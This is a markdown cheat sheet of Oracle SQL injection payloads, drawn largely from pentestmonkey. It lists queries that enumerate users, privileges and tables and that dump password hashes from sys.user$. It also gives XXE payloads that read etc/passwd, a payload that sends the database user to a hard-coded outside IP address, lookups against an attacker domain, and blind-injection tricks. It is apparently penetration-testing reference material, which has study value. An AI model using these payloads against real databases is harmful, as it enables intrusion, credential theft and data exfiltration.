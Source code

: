 # SQLi - Oracle

## From:

- http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
- http://ferruh.mavituna.com/oracle-sql-injection-cheat-sheet-oku/
- http://www.securitytube.net/video/6138
- https://portswigger.net/web-security/sql-injection/cheat-sheet
 
## Enumeration

| Enumerate    | Command                 |
|--------------|-------------------------|
| Current User | `SELECT user FROM dual` |
|Database version |	`SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';` <br> `SELECT banner FROM v$version WHERE banner LIKE 'TNS%';` <br> `SELECT version FROM v$instance;`
|Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;`<br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;` |
| List Databases | `SELECT DISTINCT owner FROM all_tables;`|
|List Users | `SELECT username FROM all_users ORDER BY username;`|
| List Passwords (Privileged only) | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name,spare4 FROM sys.user$`|
| List Tables | `SELECT table_name FROM all_tables;` |
| Current Permissions | `SELECT * FROM DBA_SYS_PRIVS;` <br> `SELECT * FROM DBA_TAB_PRIVS;` <br> `SELECT * FROM DBA_ROLE_PRIVS;`
 
Dumping
You can dump tables very similar to any other query language.

```sql
SELECT * FROM <tablename>
```
 
## Notes

There is no LIMIT clause in Oracle. If the database is Oracle 12c R1 or above, use instead `FETCH NEXT 10 ROWS ONLY`, e.g.

```sql
SELECT * FROM APP_HISTORY  FETCH NEXT 100 ROWS ONLY
```
 
## Local file access

```sql
select extractvalue(xmltype('<!ENTITY xxe SYSTEM "etc/passwd">]>'||'&'||'xxe;'),'/l') from dual;
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "etc/passwd"> %remote; %param1;]>'),'/l') from dual;
```

## Data Exfiltration

https://blog.netspi.com/advisory-xxe-injection-oracle-database-cve-2014-6577/
https://exploitstube.com/sql-injection-abusing-xxe-in-oracle.html

```sql
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://66.35.63.202/'||(SELECT user FROM dual)||'"> %remote; %param1;]>'),'/l') from dual;
```

## Pentestmonkey - Oracle SQLi

http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
 
Some of the queries in the table below can only be run by an admin.  These are marked with “– priv” at the end of the query.

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version      | `SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;` <br>	`SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;`<br>`SELECT version FROM v$instance;`|
|Comments | `SELECT 1 FROM dual — comment` <br> –NB: `SELECT` statements must have a `FROM` clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.|
| Current User | `SELECT user FROM dual` |
| List Users | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name FROM sys.user$; — priv` |
| List Password Hashes | `SELECT name, password, astatus FROM sys.user$ — priv`, <= 10g.  astatus tells you if acct is locked <br>  `SELECT name,spare4 FROM sys.user$ — priv`, 11g |
| Password Cracker | `checkpwd` will crack the DES-based hashes from Oracle 8, 9 and 10. |
| List Privileges | `SELECT * FROM session_privs;` — current privs <br> `SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’;` — priv, list a user’s privs <br> `SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’;` — priv, find users with a particular priv <br> `SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;` |
| List DBA Accounts | `SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’;` — priv, list DBAs, DBA roles |
| Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;` <br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;`|
| List Databases | `SELECT DISTINCT owner FROM all_tables;` — list schemas (one per user)<br> –Also query TNS listener for other databases.  See tnscmd (services | status).|
| List Columns | `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;`<br> `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;`|
| List Tables | `SELECT table_name FROM all_tables;`<br> `SELECT owner, table_name FROM all_tables;`|
| Find Tables From Column Name | `SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’;` — NB: table names are upper case|
| Select Nth Row | `SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9;` — gets 9th row (rows numbered from 1)
| Select Nth Char | `SELECT substr(‘abcd’, 3, 1) FROM dual;` — gets 3rd character, ‘c’ |
| Bitwise AND | `SELECT bitand(6,2) FROM dual; — returns 2` <br> `SELECT bitand(6,1) FROM dual; — returns0`|
|ASCII Value -> Char | `SELECT chr(65) FROM dual; — returns A` |
|Char -> ASCII Value | `SELECT ascii(‘A’) FROM dual;` — returns 65 |
| Casting | `SELECT CAST(1 AS char) FROM dual;`<br>`SELECT CAST(’1′ AS int) FROM dual;`|
|String Concatenation| `SELECT ‘A’ || ‘B’ FROM dual;` — returns AB|
|If Statement | `BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;` — doesn’t play well with SELECT statements|
|Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual;` — returns 1 <br>`SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual;` — returns 2|
| Avoiding Quotes | `SELECT chr(65) || chr(66) FROM dual;` — returns AB
| Time Delay | `BEGIN DBMS_LOCK.SLEEP(5); END;` — priv, can’t seem to embed this in a SELECT <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — if reverse looks are slow <br> `SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual;` — if forward lookups are slow <br> `SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;` — if outbound TCP is filtered / slow<br> – Also see Heavy Queries to create a time delay |
| Make DNS Requests | `SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;` <br>`SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;`|
| Command Execution | Javacan be used to execute commands if it’s installed.ExtProc can sometimes be used too, though it normally failed for me. :-( |
| Local File Access | `UTL_FILE` can sometimes be used.  Check that the following is non-null: `SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;` <br>Java can be used to read and write files if it’s installed (it is not available in Oracle Express).|
| Hostname, IP Address | `SELECT UTL_INADDR.get_host_name FROM dual;` <br> `SELECT host_name FROM v$instance;` <br> `SELECT UTL_INADDR.get_host_address FROM dual;` — gets IP address <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — gets hostnames|
| Location of DB files | `SELECT name FROM V$DATAFILE;`|
| Default/System Databases | `SYSTEM`<br>`SYSAUX`

## Misc Tips

In no particular order, here are some suggestions from pentestmonkey readers.
From Christian Mehlmauer:
| Enumerate    | Command                 |
|--------------|-------------------------|
| Get all tablenames in one string | `select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables` –  when using union based SQLI with only one row|
| Blind SQLI in order by clause	| `order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end` — you must know 2 column names with the same datatype|